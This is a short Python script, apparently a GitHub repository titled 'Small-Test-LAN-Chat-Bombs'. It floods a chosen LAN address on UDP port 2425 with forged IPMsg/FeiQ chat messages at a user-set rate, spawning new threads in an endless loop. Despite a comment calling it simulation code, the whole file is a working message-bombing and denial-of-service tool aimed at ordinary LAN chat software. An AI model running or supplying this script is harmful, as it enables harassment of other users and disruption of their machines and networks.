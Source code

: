 # Small-Test-LAN-Chat-Bombs

#这是一个模拟代码
import socket
import time
import threading
# broadcast_ip = "xxx.xxx.xxx.xxx"  #ip 地址
broadcast_ip = input("请输入ip的后两位或者三位：")
broadcast_ip = "192.168.115." + broadcast_ip
# 1. 创建套接字
udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
udp_socket.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
send_data = input("请输入要发送的数据：")
times = int(input("请输入每秒发送次数："))
# time.sleep(1/times)

while True:
    def thread():
        time.sleep(1 / times)
        # send_data = input("请输入要发送的数据：")

        # 3. 发送数据
        msg = "1:%d:6楼:607:32:" % int(time.time()) + send_data
        udp_socket.sendto(msg.encode("gbk"), (broadcast_ip, 2425))
    pp = threading.Thread(target=thread)
    pp.start()

# 6. 关闭套接字
# udp_socket.close()
